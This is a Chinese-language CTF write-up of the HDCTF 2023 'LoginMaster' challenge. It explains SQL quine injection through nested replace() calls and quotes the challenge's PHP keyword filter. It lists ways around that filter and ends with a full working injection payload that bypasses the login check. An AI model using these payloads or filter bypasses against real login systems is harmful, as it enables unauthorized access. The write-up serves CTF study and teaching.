 

# [HDCTF 2023]LoginMaster 复现

## 知识点

>   **SQL的Uquine注入，需要让输入和输出的结果一样**

## 怎么让输入输出一样

**使用quine注入，简单来说这是一种使得输入的sql语句和输出的sql语句一致的方法**



**首先先了解一下replace()函数**

-   `replace(object,search,replace)`
-   把`object`对象中出现的的`search`全部替换成`replace`
-   **案例**

```sql
# object  = .
# search  = char(46)
# replace = .
select replace(".",char(46),".");# char(46)就是【.】
+---------------------------+
| replace(".",char(46),".") |
+---------------------------+
| .                         |
+---------------------------+

# 将object写成replace(".",char(46),".")
# object  = replace(".",char(46),".")
# search  = char(46)
# replace = .
select replace('replace(".",char(46),".")',char(46),'.');
+---------------------------+
| replace(.....) 			|
+---------------------------+
| replace(".",char(46),".") |
+---------------------------+

# 这时候我们将第三个参数也改成replace(".",char(46),".")
# object  = replace(".",char(46),".")
# search  = char(46)
# replace = replace(".",char(46),".")
select replace('replace(".",char(46),".")',char(46),'replace(".",char(46),".")');
+---------------------------------------------------------------------------+
| replace('replace(".",char(46),".")',char(46),'replace(".",char(46),".")') |
+---------------------------------------------------------------------------+
| replace("replace(".",char(46),".")",char(46),"replace(".",char(46),".")") |
+---------------------------------------------------------------------------+
# 这时可以发现输出的值和我们查询的东西快变成一样的了，唯一存在的不足就是【单双号的不同】
# 原来：replace(".",char(46),".") 变成了：replace("replace(".",char(46),".")",char(46),"replace(".",char(46),".")")
```

**解决单双引号不同的问题**

```sql
# char(34) = "      	char(39) = '
# object  = replace('"."',char(34),char(39)) == 【'.'】
# search  = char(46)
# replace = .
select replace(replace('"."',char(34),char(39)),char(46),".");# 先执行内层replace
+--------------------------------------------------------+
| replace(replace('"."',char(34),char(39)),char(46),".") |
+--------------------------------------------------------+
| '.'                                                    |
+--------------------------------------------------------+
# 这样就可以将我们的双引号替换成单引号，此时我们继续沿用上面的思路，构造输入输出相同的语句


# object  = replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)
# search  = char(46)
# replace = replace(replace(".",char(34),char(39)),char(46),".")
select replace
	(replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)),
     char(46), 
     'replace(replace(".",char(34),char(39)),char(46),".")' );
+------------------------------------------------------------------------------------------------------------------------------------------------------------+
| replace(replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)),char(46),'replace(replace(".",char(34),char(39)),char(46),".")') |
+------------------------------------------------------------------------------------------------------------------------------------------------------------+  
     
```

**Quine基本形式**

```sql
select replace(replace('str',char(34),char(39)),char(46),'str');
# 这样去查询就会的得到str字符串本身，不过就是咋这里要多一步，先将str里的双引号替换成单引号，再用str替换str里的.
```

**注入的Quine基本形式**

```sql
1'/**/union/**/select/**/replace(replace('',char(34),char(39)),char(46),'') #
# 这样去查询就会得到一个空的结果
'
select replace(replace('"."',char(34),char(39)),char(46),".");
# 这条语句用来把双引号替换为单引号
```



## 解题

-   打开题目发现主页是一个登录框，并且登录成功就给flag
-   首先寻找一下有没有提示，看源代码和访问`robots.txt、www.zip`，在`robots.txt`中发现如下代码

```java
function checkSql($s) {
    if(preg_match("/regexp|between|in|flag|=|>|<|and|\||right|left|reverse|update|extractvalue|floor|substr|&|;|\\\$|0x|sleep|\ /i",$s)){
        alertMes('hacker', 'index.php');
    }
}
if ($row['password'] === $password) {
        die($FLAG);
    } else {
    alertMes("wrong password",'index.php');
```

>   以上可以得知sql存在过滤，而且拿flag条件是password要等于查询出来的password

>   然后传入万能密码进行测试`1' or 1=1#`，`username、password`都输入这玩意
>
>   点击登录会弹框：`only admin can login`，用户名只能是admin，那么注入点位置就只能是在password这里
>
>   那么可以根据上面的代码的可以发现，那些过滤都是针对password的，

>   虽然过滤了很多，但一些替代关键字没有被过滤
>
>   ```nginx
>   sleep 		可以用benchmark代替
>   <,> 		可以用least(),greatest()代替
>   =,in 		可以用like代替
>   substr 		可以用mid代替
>   空格 		   可以用/**/代替
>   ```
>

>   然后就是还要绕过：`if ($row['password'] === $password) {}`，但是这张表其实是一张空表
>
>   所以只能通过让输入输出一致，达到绕过的目的
>
>   根据以上的分析就给得到playload为：

```sql
1'/**/union/**/select/**/replace(replace('1"/**/union/**/select/**/replace(replace(".",char(34),char(39)),char(46),".")#',char(34),char(39)),char(46),'1"/**/union/**/select/**/replace(replace(".",char(34),char(39)),char(46),".")#')#
```

**最终达到输入输出完全一致**





参考：

https://www.cnblogs.com/zhengna/p/15917521.html
